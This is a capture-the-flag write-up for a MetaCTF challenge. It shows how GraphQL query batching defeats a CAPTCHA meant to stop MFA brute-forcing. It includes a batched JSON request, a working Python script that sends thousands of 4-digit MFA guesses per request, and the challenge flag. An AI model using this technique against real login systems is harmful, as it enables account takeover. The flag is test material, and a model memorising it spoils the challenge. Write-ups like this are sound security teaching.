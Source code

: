 # Look, if you had one shot

## Description

> Or one opportunity. To guess one mfa code on the website. In one moment. Could you hack it? Or just let it slip?
>
> During a penetration test of Generally Quirky Labs' online websites, you stumbled across their company employee portal. After some recent brute force attacks, the security team got tired of watching hackers knock on the door all day long. So they implemented both MFA and Captcha codes, using some of the latest technologies. Unfortunately for them, they were not aware of one of the technologies' features...Note: DOSing the website by sending web requests is not the way.
>
> Username: `matthew@generallyql.com`
>
> Password: `yHfm34P9@v!Ge6`

## Solution

We are given the account credentials, but there is an MFA code that we need to submit. We are told that the code expires in 3 minutes, and there is a CAPTCHA code we need to submit, to prevent bruteforcing the MFA code.

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 8.01.25 PM.png>)

Looking under the hood, we see that there is a `login_session_token` that is sent to us.

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 8.02.33 PM.png>)

In the GraphQL query sent to `mfa_service.php`, the token is used again. It appears that as long as we use this same login token, we can submit as many attempts as we want, provided we give the correct CAPTCHA code in the GET request parameter.

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 8.04.45 PM.png>)

In GraphQL, we can use **batching** to send several queries at a time. If the server processes all these queries together using the same CAPTCHA code, this would defeat the purpose of the CAPTCHA.

For instance, we can submit two queries the same HTTP request:

```json
[
    {
        "query":"query submit_mfa_token($code: String!, $usertoken: String!, $username: String!) { submit_mfa_token(code: $code, usertoken: $usertoken, username: $username) }",
        "variables"{
            "code":"0000",
            "usertoken":"6a5836fa459785d8",
            "username":"matthew@generallyql.com"
        }
    },
    {
        "query":"query submit_mfa_token($code: String!, $usertoken: String!, $username: String!) { submit_mfa_token(code: $code, usertoken: $usertoken, username: $username) }",
        "variables":{
            "code":"0001",
            "usertoken":"6a5836fa459785d8",
            "username":"matthew@generallyql.com"
        }
    }
]
```

Indeed, both queries were processed! We managed to try two MFA tokens, with the same CAPTCHA code.

![](<../../.gitbook/assets/image (91) (1) (1).png>)

Since the MFA token is only 4 digits, we could simply batch thousands of queries together, drastically reducing the number of CAPTCHAs required. Here I batched 3000 queries at a time due to the request length limits.

```python
import requests, json

lower_bound = 0

while lower_bound < 10000:
    payload = []
    print("Lower bound: " + str(lower_bound))
    for i in range(lower_bound, lower_bound + 3000):
        payload.append(
            {
                "query":"query submit_mfa_token($code: String!, $usertoken: String!, $username: String!) { submit_mfa_token(code: $code, usertoken: $usertoken, username: $username) }",
                "variables":{
                    "code":f"{i}",
                    "usertoken":"ef7ec81d3dfe867f",
                    "username":"matthew@generallyql.com"
                }
            }
        )

    # print(payload)

    captcha = input("Enter captcha: ")
    r = requests.post(
        f"https://metaproblems.com/1b7b23a1d213dc1c4d24d998f11b0b35/generallyquirkylabs/mfa_service.php?captchacode={captcha}", 
        json=payload,
        headers={
            "Cookie": "GENERALLYQUIRKYLABS=75767933c8676f1ef6633a81b6fb76fd"
        }
    )
    print(r.json())

    if 'code' in r.json() and r.json()['code'] == 4:
        continue

    for result in r.json():
        if json.loads(result['data']['submit_mfa_token'])['code'] != 3:
            print(result)

    lower_bound += 3000
```

Eventually, one of our attempts will be successful.

```json
{
    'data': {
        'submit_mfa_token': '{"code":1,"message":"Login successful!","redirect":".\\/dashboard.php"}'
    }
}
```

The flag is `MetaCTF{if_brute_force_doesnt_work_use_more_brute_forceeeeeeee}`
